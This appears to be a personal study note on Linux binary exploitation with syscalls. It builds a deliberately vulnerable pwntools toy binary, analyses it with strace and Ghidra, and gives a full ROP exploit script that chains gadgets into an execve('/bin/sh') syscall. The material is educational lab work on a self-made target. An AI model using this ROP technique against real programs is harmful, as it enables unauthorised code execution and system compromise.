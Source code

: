 ```yaml
---
description: 09/22/2023
---
```


# Exploitation w/ Syscalls

## References

{% embed url="https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-syscall-execv" %}

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/syscalls/exploitation-with-syscalls" %}

**First, we'll create a file with Python/pwntools:**

```python
import os
from pwn import *


context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 300;
        syscall;
        ret;
        
        pop rax;
        ret;
        pop rdi;
        ret;
        pop rsi;
        ret;
        pop rdx;
        ret;
    '''
)
elf.save('vuln')
os.system("chmod +x vuln")
```

It will first execute a `read()` syscall. This will read from a file descriptor (identifier for a file or other resource).

**We can see this with `strace`:**

```
strace ./vuln
execve("./vuln", ["./vuln"], 0x7ffd9782ca00 /* 22 vars */) = 0
read(0,
"\n", 300)
```

We can see `execve()` placing the value `0` into `RAX` (which the kernel checks), storing the value as a parameter (`0`) into `RDI` and calling `read()` or `0` which is the syscall number for `read()`.

## Analyzing Syscalls in Ghidra

Okay, so this was a little different.

We can see that the value, <mark style="color:yellow;">`0`</mark> <mark style="color:yellow;">is</mark> <mark style="color:yellow;">being moved onto the stack and being placed into the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;">register</mark>.

This is our <mark style="color:yellow;">invoke of the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`read()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">syscall since</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`0`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">is our syscall number</mark>.

We then write the value `300` (had to convert this from `0x12C`) to the stack using `RDX`.

Lastly, we `ret`.

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>Ghidra Analysis</p></figcaption></figure>

**We can add `"/bin/sh"` by:**&#x20;

```
echo -en "/bin/sh\x00" >> vuln
```

**After that, we can get the gadget address using `strings`:**

```
strings -t x vuln | grep bin
   1238 /bin/sh
```

We see the offset from the base to the string is `0x1238`.

## Exploitation

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Arming ourselves with the following information will allow us to get a shell.

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

binsh = elf.address + 0x1238

POP_RAX = 0x10000018
POP_RDI = 0x1000001a
POP_RSI = 0x1000001c
POP_RDX = 0x1000001e
SYSCALL = 0x10000015

payload = flat(
    'A' * 8,
    POP_RAX,
    0x3b,
    POP_RDI,
    binsh,
    POP_RSI,
    0x0,
    POP_RDX,
    0X0,
    SYSCALL
)

p.sendline(payload)
p.interactive()
```

<mark style="color:red;">**Disclaimer**</mark>: Unfortunately and for the first time, I wasn't really fond of Ir0nstone's guide on this one, so I will be adding some more examples.

As a result, this is still a work in progress.
